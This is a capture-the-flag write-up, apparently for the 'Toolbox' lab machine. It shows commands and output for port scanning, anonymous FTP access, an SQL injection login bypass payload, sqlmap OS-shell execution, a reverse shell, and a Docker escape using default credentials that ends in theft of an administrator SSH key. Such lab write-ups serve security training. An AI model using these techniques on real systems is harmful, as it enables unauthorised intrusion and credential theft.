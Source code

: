 # Toolbox

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.171
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 06:28 EDT
Nmap scan report for 10.129.96.171
Host is up (0.0079s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Access

We can login to FTP using `anonymous`, and find an `.exe` file:

```
$ ftp 10.129.96.171
Connected to 10.129.96.171.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.129.96.171:kali): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50028|)
150 Opening data channel for directory listing of "/"
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
226 Successfully transferred "/"
```

I don't know what this is for, but we'll keep this in mind for now.

### MegaLogistics

The HTTPS page shows a freight corporate page:

<figure><img src="../../../.gitbook/assets/image (453).png" alt=""><figcaption></figcaption></figure>

I took a look at the certificate, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

Heading to `admin.megalogistic.com` reveals a login page:

<figure><img src="../../../.gitbook/assets/image (439).png" alt=""><figcaption></figcaption></figure>

Sending a single `'` reveals an SQL error.

<figure><img src="../../../.gitbook/assets/image (450).png" alt=""><figcaption></figcaption></figure>

So this is vulnerable to SQL Injection, and we can use `'OR 1=1 -- -` to bypass the login. On the admin dashboard, we see some stuff regarding credentials:

<figure><img src="../../../.gitbook/assets/image (446) (2).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the administrator panel for us to use, so let's go back to the SQL Injection and see if we can get a webshell via `sqlmap`.&#x20;

```bash
$ sqlmap -r req --force-ssl --os-shell
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
[06:37:40] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102...
command standard output: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'
```

This works, and we can get a webshell. The weird part is, this is a Windows machine and I ran `id` out of instinct. This means that the website and database are probably run within a Docker container. Anyways, we can get a reverse shell via a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>

I found the user flag within the `/var/lib/postgresql` folder:

<pre class="language-bash"><code class="lang-bash"><strong>$ find / -name 'user.txt' 2> /dev/null
</strong>/var/lib/postgresql/user.txt
</code></pre>

## Privilege Escalation

### Docker Escape

Earlier, we found that the administrator needs to send credentials to `tony` or something. Earlier, we found a `docker-toolbox.exe` file, and it is probably used to create this Docker.&#x20;

We can first figure out where other containers are located at via IP Address:

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 3305  bytes 322116 (314.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1839  bytes 3722336 (3.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2042  bytes 635411 (620.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2042  bytes 635411 (620.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

I downloaded the `nmap` binary onto this machine via `curl`, and found that SSH was open on 172.17.0.1.&#x20;

```
postgres@bc56e3cc55e9:/tmp$ ./nmap 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-07 04:52 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.1
Host is up (0.00038s latency).
Not shown: 1205 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
443/tcp open  https
```

While Googling for `docker-toolbox` and `ssh`, I came across this StackOverflow question:

{% embed url="https://stackoverflow.com/questions/32027403/docker-toolbox-ssh-login" %}

I tried the password and username he specified (which looked default to me) and it worked:

<figure><img src="../../../.gitbook/assets/image (434) (2).png" alt=""><figcaption></figcaption></figure>

On the docker, we can run `sudo su` to become `root`.

```
docker@box:~$ sudo -l                                                          
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
docker@box:~$ sudo su                                                          
root@box:/home/docker# id
uid=0(root) gid=0(root) groups=0(root)
```

### SSH Creds

Within `/`, I found a `/c` directory:

```
root@box:/# ls -la                                                             
total 244
drwxr-xr-x   17 root     root           440 May  7 04:37 .
drwxr-xr-x   17 root     root           440 May  7 04:37 ..
drwxr-xr-x    2 root     root          1420 May  7 04:34 bin
drwxr-xr-x    3 root     root            60 May  7 04:37 c
```

This is likely the Windows machine file system being mounted, and since we are `root`, we can go ahead and enumerate it.&#x20;

```
root@box:/c/Users/Administrator# ls -la                                        
total 1501
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 May  7 04:33 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

Within the `.ssh` file, we can find an `id_rsa` private key. Using that, we can `ssh` in as `administrator` on the main machine.

<figure><img src="../../../.gitbook/assets/image (437) (2).png" alt=""><figcaption></figcaption></figure>
